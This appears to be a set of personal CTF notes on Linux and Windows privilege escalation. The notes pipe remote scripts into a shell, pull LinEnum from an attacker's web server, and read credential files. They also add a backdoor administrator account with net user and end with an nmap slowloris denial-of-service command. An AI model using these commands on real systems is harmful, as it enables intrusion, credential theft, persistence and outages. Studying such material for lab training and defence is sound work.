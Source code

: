 On Linux ideally we would be looking for opportunities to gain access to a user account. 
SSH keys stored at `/home/<user>/.ssh` 

In CTFs it's also not infrequent to find credentials lying around somewhere on the box. 

Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

shows current users permissions
`sudo -l

first ssh into ip THEN
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

# LinEnum

[LinEnum GitHub](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

There are two ways to get LinEnum on the target machine. 

1. Go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using **"python3 -m http.server 8000"** . Then using **"wget"** on the target machine, and your local IP, you can grab the file from your local machine. Then make the file executable using the command **"chmod +x FILENAME.sh"**.
2. if you have sufficient permissions, copy the raw LinEnum code from your local machine and paste it into a new file on the target, using Vi or Nano. Once you've done this, you can save the file with the **".sh"** extension. Then make the file executable using the command **"chmod +x FILENAME.sh"**.

Start a server from the directory that contains LinEnum.sh
```bash
(raz㉿kali)-[~/LinEnum]
└─$ python -m http.server 9000
```
1. from the target use `wget http://10.4.3.201:9000/LinEnum.sh
3. `chmod +x LinEnum.sh
4. Run `./LinEnum.sh` to begin scan



# Exploiting SUID Files



# Handy Nix Files

contains ssh configurations such as: PasswordAurhentication
`etc/ssh/ssshd_config

## Windows 

VNC servers, for example, frequently leave passwords in the registry stored in plaintext. 

Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  or `C:\xampp\FileZilla Server\FileZilla Server.xml`  
- These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

`net user <username> <password> /add`

`net localgroup administrators <username> /add`

---

# Now you're Here..

launche DOS attack using nmap scripts
`nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true

